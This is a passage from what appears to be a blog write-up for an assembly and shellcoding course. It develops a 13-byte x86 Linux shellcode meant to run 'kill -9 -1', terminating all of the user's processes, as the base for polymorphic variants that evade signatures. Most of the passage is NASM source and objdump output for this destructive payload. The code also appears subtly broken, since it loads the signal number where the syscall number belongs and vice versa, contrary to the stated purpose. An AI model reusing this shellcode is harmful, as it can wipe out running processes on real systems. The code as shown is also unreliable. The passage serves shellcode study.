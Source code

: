This first kill\_em\_all variant is 18 bytes long, so it doesn't fit my
assignment rules and it can't be a feasible solution.

I'll change then the byte assignment, not using a define byte approach but a
direct load, instead:

{%highlight asm%}
; Filename: 	kill_second_variant.nasm
; Author:	Paolo Perego <paolo@codiceinsicuro.it>
; Website:  	https://codiceinsicuro.it
; Blog post:  	https://codiceinsicuro.it/slae/
; Twitter:   	@thesp0nge
; SLAE-ID:    	1217
; Purpose:	This is my second variant for kill -9 -1 shellcode. This
;		shellcode is 13 byte long and I will use it as a skeleton for
;		polymorphic generator.

section .text

global _start

_start:
	xor ebx, ebx
	xor eax, eax
	xor ecx, ecx

	mov cl, 0x25
	mov al, 0x9

	dec ebx
	int 0x80

{%endhighlight%}

This shellcode, when compiled into binary, is only 13 bytes long that is inside
our engagement rules.

{% highlight sh%}
 % objdump -d kill_second_variant

kill_second_variant:     file format elf32-i386


Disassembly of section .text:

08048080 <_start>:
 8048080:	31 db                	xor    %ebx,%ebx
 8048082:	31 c0                	xor    %eax,%eax
 8048084:	31 c9                	xor    %ecx,%ecx
 8048086:	b1 25                	mov    $0x25,%cl
 8048088:	b0 09                	mov    $0x9,%al
 804808a:	4b                   	dec    %ebx
 804808b:	cd 80                	int    $0x80

{% endhighlight %}

Now with those two fixes values loaded into cl and al it's easy to derive other
variations. We can start from this to create some other polymorphic versions,
using some strategies like:
